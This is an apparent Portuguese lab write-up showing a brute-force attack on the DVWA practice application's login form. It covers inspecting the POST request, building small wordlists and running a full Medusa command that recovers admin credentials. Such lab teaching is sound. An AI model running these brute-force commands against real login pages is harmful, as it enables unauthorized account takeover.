



## 🌐 Passo a Passo do Teste em Formulário Web (DVWA)

Abaixo estão as etapas realizadas para simular um ataque de força bruta em um formulário de login da aplicação vulnerável **DVWA (Damn Vulnerable Web Application)** utilizando a ferramenta **Medusa**.

### 1. Acessar a página de login

Primeiro foi acessada a página de autenticação da aplicação web.

```text
http://192.168.56.103/dvwa/login.php
```

**Objetivo:**  
Identificar o formulário que será utilizado no teste de força bruta.



---

### 2. Analisar a requisição de login

Foi realizada uma tentativa manual de login para observar como a requisição HTTP era enviada.

**Ferramenta utilizada:**
- Console do navegador
- Aba **Network**
- Inspeção da requisição POST

**Objetivo:**  
Identificar os parâmetros necessários para reproduzir o login automaticamente com o Medusa.

Parâmetros identificados:

```text
username
password
Login
```



---

### 3. Criar wordlists simples

Foram criadas listas contendo usuários e senhas comuns.

#### Lista de usuários

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

#### Lista de senhas

```bash
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```

**Objetivo:**  
Preparar credenciais para o teste automatizado.

---

### 4. Executar o ataque com Medusa

Com as informações do formulário identificadas, foi executado o ataque automatizado.

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' \
-t 6
```

**Parâmetros utilizados:**

- `-h` → Host alvo  
- `-U` → Lista de usuários  
- `-P` → Lista de senhas  
- `-M http` → Módulo HTTP  
- `PAGE` → Página de login  
- `FORM` → Estrutura da requisição  
- `FAIL` → Mensagem de falha  
- `-t 6` → Número de threads  

---

### 5. Validar as credenciais encontradas

Após a descoberta das credenciais válidas, foi realizado o teste manual na página de login.

```text
Username: admin
Password: password
```

**Objetivo:**  
Confirmar que o login identificado pelo Medusa funciona corretamente.



---

## ✅ Resultado

O teste demonstrou como credenciais fracas em aplicações web podem ser identificadas por meio de ataques automatizados de força bruta em formulários de autenticação.

---
